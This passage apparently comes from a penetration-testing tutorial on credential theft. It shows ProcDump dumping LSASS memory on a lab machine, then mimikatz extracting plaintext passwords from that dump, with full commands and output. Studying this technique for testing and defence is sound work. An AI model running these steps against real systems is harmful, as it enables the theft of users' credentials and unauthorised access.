

# Don't forget to use "-accepteula" to avoid any pesky popups. If run on a 64-bit OS you have to add the
"-64" flag to the command below.
C:\Users\Fubar\Desktop\Sysinternals> procdump.exe -accepteula -ma lsass.exe lsass.dmp
ProcDump v7.1 - Writes process dump files
Copyright (C) 2009-2014 Mark Russinovich
Sysinternals - www.sysinternals.com
With contributions from Andrew Richards
[23:42:36] Dump 1 initiated: C:\Users\Fubar\Desktop\Sysinternals\lsass.dmp
[23:42:37] Dump 1 writing: Estimated dump file size is 28 MB.
[23:42:38] Dump 1 complete: 28 MB written in 1.5 seconds
[23:42:38] Dump count reached.
After the dump has been created we can remove the ProcDump executable and exfiltrate the LSASS minidump to our local machine. Once we have the minidump on our local machine we can run mimikatz and extract the credentials. For this to work, we need to make sure that we run mimikatz (locally) on the same architecture as the target machine. Benjamin Delpy has created a useful chart to show compatibility between the target and the local host.

C:\Users\Fubar\Desktop\Mimikatz\x32> mimikatz.exe
.#####. mimikatz 2.0 alpha (x86) release "Kiwi en C" (Sep 1 2014 01:09:47)
.## ^ ##.
## / \ ## /* * *
## \ / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
'## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
'#####' with 14 modules * * */
mimikatz# sekurlsa::minidump C:\Users\Fubar\Desktop\lsass.dmp
Switch to MINIDUMP : 'C:\Users\Fubar\Desktop\lsass.dmp'
mimikatz# sekurlsa::tspkg
Authentication Id : 0 ; 1243450 (00000000:0012f93a)
Session : Interactive from 0
User Name : user1
Domain : Win7-Testbed
SID : S-1-5-21-2436999474-2994553960-2820488997-1003
tspkg :
* Username : user1
* Domain : Win7-Testbed
* Password : imsosecurew00tw00t666#@
Authentication Id : 0 ; 291143 (00000000:00047147)
Session : Interactive from 1
User Name : Fubar
Domain : Win7-Testbed
SID : S-1-5-21-2436999474-2994553960-2820488997-1001
tspkg :
* Username : Fubar
* Domain : Win7-Testbed
* Password : password123!
Authentication Id : 0 ; 997 (00000000:000003e5)
Session : Service from 0
User Name : LOCAL SERVICE
Domain : NT AUTHORITY
SID : S-1-5-19
tspkg :
Authentication Id : 0 ; 996 (00000000:000003e4)
Session : Service from 0
User Name : WIN7-TESTBED$
Domain : WORKGROUP
SID : S-1-5-20
tspkg :
Keep in mind that you can only recover credentials for users who have an active session on the target.